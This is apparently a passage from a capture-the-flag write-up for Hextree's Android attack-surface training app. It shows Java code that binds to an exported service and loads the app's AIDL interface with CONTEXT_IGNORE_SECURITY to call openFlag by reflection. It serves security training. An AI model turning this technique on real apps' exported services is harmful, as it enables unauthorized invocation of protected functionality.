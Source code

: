 ```java
};  
  
bindService(send,serviceConnection3, Context.BIND_AUTO_CREATE);
```

##### Class loading 

```java
Intent send = new Intent();  
send.setClassName("io.hextree.attacksurface", "io.hextree.attacksurface.services.Flag28Service");  
ServiceConnection serviceConnection4 = new ServiceConnection() {  
    @Override  
    public void onServiceConnected(ComponentName name, IBinder service) {  
        // Load the class dynamically  
        ClassLoader classLoader = null;  
        try {  
            classLoader = services.this.createPackageContext("io.hextree.attacksurface",  
                    Context.CONTEXT_INCLUDE_CODE | Context.CONTEXT_IGNORE_SECURITY).getClassLoader();  
            Class<?> iRemoteServiceClass;  
            // Load the AIDL interface class  
            iRemoteServiceClass = classLoader.loadClass("io.hextree.attacksurface.services.IFlag28Interface");  
            Class<?> stubClass = null;  
            for (Class<?> innerClass : iRemoteServiceClass.getDeclaredClasses()) {  
                if (innerClass.getSimpleName().equals("Stub")) {  
                    stubClass = innerClass;  
                    break;  
                }  
            }  
            // Get the asInterface method  
            Method asInterfaceMethod = stubClass.getDeclaredMethod("asInterface", IBinder.class);  
  
 // Invoke the asInterface method to get the instance of IRemoteService
        Object iRemoteService = asInterfaceMethod.invoke(null, service);

        // Call the init method and get the returned string
        Method openFlagMethod = iRemoteServiceClass.getDeclaredMethod("openFlag");
        boolean initResult = (boolean) openFlagMethod.invoke(iRemoteService);
  
  
        } catch (Exception e) {  
            Log.e("Flag29Service", "Error creating package context", e);  
        }  
    }  
  
    @Override  
    public void onServiceDisconnected(ComponentName name) {  
    }  
};  
  
bindService(send,serviceConnection4, Context.BIND_AUTO_CREATE);
```
